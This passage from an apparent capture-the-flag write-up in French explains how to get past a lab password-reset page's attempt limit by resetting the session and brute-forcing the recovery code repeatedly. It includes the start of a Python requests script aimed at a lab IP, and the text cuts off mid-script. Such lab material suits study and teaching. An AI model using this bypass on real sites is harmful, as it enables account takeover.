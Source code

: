 ![Image](https://media.discordapp.net/attachments/1313520626299961344/1317699142272942150/image.png?ex=675fa275&is=675e50f5&hm=6118fcd35a447debdb4498c5ba1edbd0c78cdb159ee66bdcbac8633d45a7591c&=&format=webp&quality=lossless&width=1345&height=397){: .normal width="500" height="500" } ![Image](https://media.discordapp.net/attachments/1313520626299961344/1317699266080407614/image.png?ex=675fa292&is=675e5112&hm=14c0027ace1c541489f1591ef0a07e93da0ebffbf0dcf66df15e4d73a42d21a5&=&format=webp&quality=lossless&width=675&height=512){: .normal width="500" height="500" }

### Contournement de la limite de tentatives
Dès que nous essayons d’accéder à reset_password.php, nous sommes bloqués sur un écran de sécurité. Pour contourner cette restriction et réessayer, nous allons changer notre cookie de session. 

![Image](https://media.discordapp.net/attachments/1313520626299961344/1317699468908433479/image.png?ex=675fa2c3&is=675e5143&hm=5a83c2353ce1debf73c0d93540dce4103053eef1d8adcb9c9eb56fb92dd99a2e&=&format=webp&quality=lossless&width=735&height=662){: .normal width="300" height="300" } ![Image](https://media.discordapp.net/attachments/1313520626299961344/1317700027472416859/image.png?ex=675fa348&is=675e51c8&hm=14cefff6ffb0503578c5dfeeba17ee402f4ebf1270a0a1432711799eca4748b2&=&format=webp&quality=lossless&width=1251&height=662){: .normal width="510" height="510" }

Maintenant, un prolbème se pose : **comment contourner cette limite de tentatives ?**  
Après plusieurs tentatives infructueuses, j'ai trouvé une faille simple dans le système :  
Le paramètre **LimitInternalRecursion**, qui limite le nombre d’essais, ne s'applique qu’aux tentatives sur le code de récupération.
En d’autres termes, pour chaque code envoyé, nous avons 10 tentatives possibles. Cependant, **le contraire n'est pas vérifié** ! Nous pouvons donc envoyer un **nombre illimité de codes pour une tentative donnée**.

Ainsi, nous pourrions donc imaginer le scénario suivant :

1. Choisir un code aléatoire (par exemple *1345*).
2. Demander une réinitialisation du mot de passe.
3. Le site nous envoie un code.
4. Nous essayons *1345*. 
5. Si ce n’est pas le bon, nous nous déconnectons 
6. Demander une réinitialisation du mot de passe... et ainsi de suite.

Pour appliquer cette stratégie, nous allons donc créer un `script Python` (c'est le langage avec lequel je me sens le plus à l'aise pour faire des requêtes web) qui décrit les étapes citées précédemment et, lorsque nous tomberons sur le bon code, nous afficherons la réponse.

```python
import requests
from concurrent.futures import ThreadPoolExecutor
import time

# Paramètres de base
url = 'http://10.10.43.36:1337/reset_password.php'
logout_url = 'http://10.10.43.36:1337/logout.php'
headers = {
    'Host': '10.10.43.36:1337',
    'Cache-Control': 'max-age=0',
    'Origin': 'http://10.10.44.48:1337',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Referer': 'http://10.10.43.36:1337/reset_password.php',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'fr-FR,fr;q=0.9',
}

cookies = {
    'PHPSESSID': 'abcdefghijkkjihgfedcba',  
}

# Paramètres pour la première requête POST 
data_reset_password = {
    'email': 'tester@hammer.thm',
}

# Paramètres pour la deuxième requête POST (code de récupération)
data_recovery_code = {
    'recovery_code': '1345', 
    's': '50000',
```